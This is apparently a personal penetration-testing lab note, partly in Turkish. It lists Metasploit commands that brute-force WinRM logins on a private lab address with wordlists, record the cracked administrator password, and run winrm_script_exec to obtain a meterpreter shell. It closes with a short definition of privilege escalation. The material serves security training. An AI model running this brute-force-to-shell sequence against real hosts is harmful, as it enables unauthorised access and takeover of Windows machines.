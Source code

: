 ```
msfconsole -q
use auxiliary/scanner/winrm/winrm_login
set RHOSTS 10.0.0.173
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```


![[Pasted image 20240202141245.png]]
### administrator
### tinkerbell olarak buldu

---

```
use auxiliary/scanner/winrm/winrm_auth_methods
set RHOSTS 10.0.0.173
exploit

```

---


![[Pasted image 20240202141533.png]]
## set FORCE_VBS true

use exploit/windows/winrm/winrm_script_exec
set RHOSTS 10.0.0.173
set USERNAME administrator
set PASSWORD tinkerbell
set FORCE_VBS true
exploit

![[Pasted image 20240202141754.png]]
![[Pasted image 20240202141805.png]]
## meterpreter shell'i aldık
![[Pasted image 20240202141848.png]]

---
----

# Privilege Escalation
#windows-Privilege-Escalation
![[Pasted image 20240205080725.png]]
Privilege escalation is the process of exploiting vulnerabilities or misconfigurations in systems to elevate privileges from one user to another, typically to a user with administrative or root access on a system.

